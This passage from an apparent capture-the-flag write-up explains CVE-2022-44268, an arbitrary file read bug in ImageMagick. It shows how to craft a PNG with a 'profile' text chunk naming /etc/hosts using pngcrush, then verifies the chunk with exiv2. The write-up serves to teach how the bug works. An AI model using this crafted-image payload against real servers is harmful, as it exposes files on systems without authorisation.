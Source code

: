 It will also run:

```
oxdf@hacky$ ./magick --version
Version: ImageMagick 7.1.0-49 beta Q16-HDRI x86_64 c243c9281:20220911 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5)
Delegates (built-in): bzlib djvu fontconfig freetype jbig jng jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (7.5)

```

Searching for this version finds a bunch of references for CVE-2022-44268:

![image-20231121111117858](https://0xdf.gitlab.io/img/image-20231121111117858.png)

The issue is in how the text string “profile” is handled by ImageMagick. [This post from metabaseq](https://www.metabaseq.com/imagemagick-zero-days/) does a really nice job with details, and offers this high level description:

> A malicious actor could craft a PNG or use an existing one and add a textual chunk type (e.g., tEXt). These types have a keyword and a text string. If the keyword is the string “profile” (without quotes) then ImageMagick will interpret the text string as a filename and will load the content as a raw profile. If the specified filename is “-“ (a single dash) ImageMagick will try to read the content from standard input potentially leaving the process waiting forever.

In ImageMagick, a profile refers to a set of color management settings that define how colors are represented and handled in an image. Color management is important because different devices (such as cameras, monitors, and printers) may interpret and reproduce colors differently. Profiles help ensure consistent and accurate color representation across various devices.

### POC Exploit

#### Manual

There are many POC scripts out there, but I prefer to do it manually [This Github page](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC) has steps for doing so. I’ll start with a generic PNG, and use `pngcrush` to add the profile string:

```
oxdf@hacky$ pngcrush -text a "profile" "/etc/hosts" poc.png
  Recompressing IDAT chunks in poc.png to pngout.png
   Total length of data found in critical chunks            =     21089
   Best pngcrush method        =   6 (ws 15 fm 6 zl 9 zs 0) =     20070
CPU time decode 0.004922, encode 0.052924, other 0.001132, total 0.059650 sec

```

This creates a new file, `pngout.png`, which has the metadata in the `tEXt` section:

```
oxdf@hacky$ exiv2 -pS pngout.png
STRUCTURE OF PNG FILE: pngout.png
 address | chunk |  length | data                           | checksum
       8 | IHDR  |      13 | .......z....                   | 0x727a55a2
      33 | gAMA  |       4 | ....                           | 0x0bfc6105
      49 | cHRM  |      32 | ..z&..............u0...`..:..  | 0x9cba513c
      93 | bKGD  |       6 | ......                         | 0xa0bda793
     111 | tIME  |       7 | .......                        | 0x9208ee1c
     130 | IDAT  |   20013 | x.....%.U.Z.N..n..&j...A3....a | 0x73423cfd
   20155 | tEXt  |      37 | date:create.2023-05-15T20:26:1 | 0x2850565c
   20204 | tEXt  |      37 | date:modify.2023-05-15T20:26:1 | 0x590deee0
   20253 | tEXt  |      18 | profile./etc/hosts             | 0xc560a843
   20283 | IEND  |       0 |                                | 0xae426082

```
